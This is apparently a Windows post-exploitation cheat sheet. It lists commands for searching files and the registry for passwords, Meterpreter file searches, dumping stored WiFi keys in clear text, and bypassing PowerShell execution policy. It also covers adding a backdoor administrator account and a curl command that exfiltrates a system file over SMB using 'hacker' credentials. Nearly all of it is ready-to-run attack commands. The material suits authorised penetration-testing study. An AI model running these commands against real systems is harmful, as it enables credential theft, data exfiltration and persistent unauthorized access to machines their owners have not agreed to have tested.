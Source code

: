 ## Enumeration is the key

- https://www.thehackr.com/windows-cmd-cheat-sheet/
- https://sirensecurity.io/blog/windows-privilege-escalation-resources/

What you gonna do?

IIS Server logs path:

```text
C:\WINDOWS\system32\Logfiles\
```

Searching for installed images and software:

```text
dism /online /Get-Features
dism /online /Get-Features /format:table
```

Search filesystem for files containing keywords:

```bash
dir /s *pass* == *cred* == *vnc* == *.config*
```

Find password in certain file types:

```bash
findstr /si password *.xml *.ini *.txt 
reg query HKLM\SOFTWARE
```


Searching with Meterpreter: 

```bash
meterpreter > search -d c:\\documents\ and\ settings\\administrator\\desktop\\ -f *.pdf
Found 2 results...
    c:\documents and settings\administrator\desktop\operations_plan.pdf (244066 bytes)
    c:\documents and settings\administrator\desktop\budget.pdf (244066 bytes)
meterpreter >
```

```bash
meterpreter > search -f *.jpg
Found 418 results...
...snip...
    c:\Documents and Settings\All Users\Documents\My Pictures\Sample Pictures\Blue hills.jpg (28521 bytes)
    c:\Documents and Settings\All Users\Documents\My Pictures\Sample Pictures\Sunset.jpg (71189 bytes)
    c:\Documents and Settings\All Users\Documents\My Pictures\Sample Pictures\Water lilies.jpg (83794 bytes)
    c:\Documents and Settings\All Users\Documents\My Pictures\Sample Pictures\Winter.jpg (105542 bytes)
...snip...
```

Restarting the IIS server:
```shell
c:/> iisreset /stop
c:/> iisreset /start
```

Finding all executable files on the system:

```shell
C:\WINDOWS\system32>where /F /T *.exe
```

Excluding results from the listing:

```shell
C:\WINDOWS\system32\inetsrv>dir |findstr /V dll
```

Exfiltrating files from the SMB service:

```bash
curl --url smb://hacker:hacker@10.11.1.31/C$/WINDOWS/system32/inetsrv/MBSchema.xml -o MBSchema.xml
```


Finding a file:
```shell
dir *bob*.* /s
dir *.xls /s
```

Listing all services:
```shell
sc QUERY state= all
```

Listing all processes with their command-line arguments:
```shell
WMIC path win32_process get Caption,Processid,Commandline
WMIC path win32_process get Caption,Processid,Commandline /value |findstr "="
```

Running commands as another user:

- http://stackoverflow.com/questions/12903629/ddg#12903698

```shell
runas /noprofile /user:Administrator cmd
```

Querying registers' information:

```shell
reg query HKLM\SOFTWARE\Microsoft\
```

WiFi password recovering:

```shell
netsh wlan show profiles 
netsh wlan show profile name=<profile> key=clear
```

Adding a new user:

```shell
net user NewAdmin SuperDuperPass1 /add
```

Adding a user to the group:

```shell
net localgroup "administrators" NewAdmin /add
```

Running powershell script:

```shell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1
```

Listing the group members:

```shell
net localgroup "administrators"

net localgroup

net user Administrator

whoami /groups
```


Reading a file:

```shell
more proof.txt
```

Stoping and starting services:

```shell
net stop slmail
net start slmail
```

Checking file permissions:
```shell
> cacls Music
F:\Users\Mantas\Music SNOW\grawity:F
                      CREATOR OWNER:(OI)(CI)(IO)F
                      SNOW\grawity:(OI)(CI)(IO)F
                      NT AUTHORITY\SYSTEM:(OI)(CI)F
```

Checking file's ownership:

```shell
> dir /Q
```

List running services:

```shell
C:\Windows\system32> tasklist /SVC
```

Checking the service's status:

```shell
C:\Users\user1\Desktop> sc qc IKEEXT
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: IKEEXT
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : IKE and AuthIP IPsec Keying Modules
        DEPENDENCIES       : BFE
        SERVICE_START_NAME : LocalSystem

```